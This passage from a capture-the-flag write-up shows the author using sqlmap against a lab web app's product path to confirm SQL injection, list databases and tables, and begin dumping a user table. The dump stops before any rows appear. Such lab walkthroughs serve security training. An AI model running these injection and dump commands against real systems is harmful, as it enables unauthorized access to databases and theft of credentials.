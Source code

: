 The `/products/<product_id>` path is vulnerable to SQL injection... come to think of it, this room had a `sqlmap` tag on it... figures!

Now we have to run `sqlmap` a few times to get some info:

## Check for injection vulnerability
```
$ sqlmap -u http://10.10.17.246/products/1 --batch
[21:52:20] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
---
[21:52:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[21:52:21] [WARNING] HTTP error codes detected during run:
405 (Method Not Allowed) - 1 times, 500 (Internal Server Error) - 80 times
[21:52:21] [INFO] fetched data logged to text files under '/home/z3nn/.local/share/sqlmap/output/10.10.17.246'

```

## Get the databases
```
$ sqlmap -u http://10.10.17.246/products/1 --batch --dbs

---
[21:52:29] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[21:52:29] [INFO] fetching database names
[21:52:29] [INFO] retrieved: 'information_schema'
[21:52:29] [INFO] retrieved: 'duckyinc'
[21:52:29] [INFO] retrieved: 'mysql'
[21:52:29] [INFO] retrieved: 'performance_schema'
[21:52:30] [INFO] retrieved: 'sys'
```

## Get tables of a database
```
$ sqlmap -u http://10.10.17.246/products/1 --batch -D duckyinc --tables
---
[21:52:46] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[21:52:46] [INFO] fetching tables for database: 'duckyinc'
[21:52:46] [INFO] retrieved: 'product'
[21:52:46] [INFO] retrieved: 'system_user'
[21:52:46] [INFO] retrieved: 'user'

```

## Dump table contents
```
$ sqlmap -u http://10.10.17.246/products/1 --batch -D duckyinc --dump
---
Database: duckyinc                                                                                                                                                                                                                                          
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
```